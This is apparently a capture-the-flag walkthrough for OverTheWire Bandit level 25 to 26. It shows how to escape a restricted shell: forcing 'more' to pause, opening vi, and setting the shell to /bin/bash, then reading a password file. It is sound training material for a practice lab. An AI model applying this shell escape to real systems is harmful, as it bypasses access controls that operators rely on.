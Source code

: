 ```yaml
---
title: Overthewire Bandit Level 25-> 26
date: '2022-01-07 22:20:00'
description: ''
categories: [OverTheWire, Bandit]
tags: [overthewire, bandit]
---
```


Solution for the Overthewire.org [Bandit level 25 -> 26](https://overthewire.org/wargames/bandit/bandit26.html){:target="\_blank"}

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 24 -> 25]({% post_url 2022-01-07-bandit24-25 %}). 

username: `bandit25` 

```ssh
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

When checking the home directory we can see an ssh key for bandit26.

```console
bandit25@bandit:~$ ls
bandit26.sshkey
```

When using the ssh key to log into bandit26 we see a Bandit26 message and then the connection is closed. 

```console
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to localhost closed.
bandit25@bandit:~$
```

According to the level description bandit26 is not running /bin/bash like the other levels. So what shell is bandit26 running ?  

We can find this out by checking `/etc/passwd` and finding user bandit26.

```console
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

It looks like bandit26 is running `/usr/bin/showtext` instead of `/bin/bash`.  
Let's check what showtext is doing.

```bash
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

Showtext is using `more` to display the contents of `text.txt` to the screen and then is exiting.

`more` is used to view file contents one screenful at a time.  
Through checking the man page we can find different options to use. One such option is `v` when used while `more` is still running. It allows us to open a `vi` editor which we can then read/edit other files.

```
Extract from the more man page
       v
           Start up an editor at current line. The editor is taken from
           the environment variable VISUAL if defined, or EDITOR if
           VISUAL is not defined, or defaults to vi(1) if neither VISUAL
           nor EDITOR is defined.
```

The problem now is that `more` always closes thus we cannot use the `v` command.  
To solve this we need the message that is displayed to be bigger then the screen.  
This can be done through a combination of resizing the terminal window and increasing the font size

```
Terminal Window reized small and text font increased 
+--------------------------------------------+
|  _                     _ _ _   ___   __    |
| | |                   | (_) | |__ \ / /    |
| | |__   __ _ _ __   __| |_| |_   ) / /_    |
| | '_ \ / _` | '_ \ / _` | | __| / / '_ \   |
| | |_) | (_| | | | | (_| | | |_ / /| (_) |  |
|--More--(83%)                               |
+--------------------------------------------+
```

With the `more` program stopped from completing we can now use `v` to open a `vi` editor.

```
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
<RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
"~/text.txt" [readonly] 6L, 258C
```

Now we are in a vi editor we can use the `:set shell` command to change the shell and give us more control.

```
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~text.txt[RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
:set shell=/bin/bash
```

Now still in vi we run `:shell`  to start the bash shell.

```
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~text.txt[RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
:shell
bandit26@bandit:~$
```

Now we have a bash shell as `bandit26` we can read the password to make it easier to login to this level in future.

```console
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9##########################
```
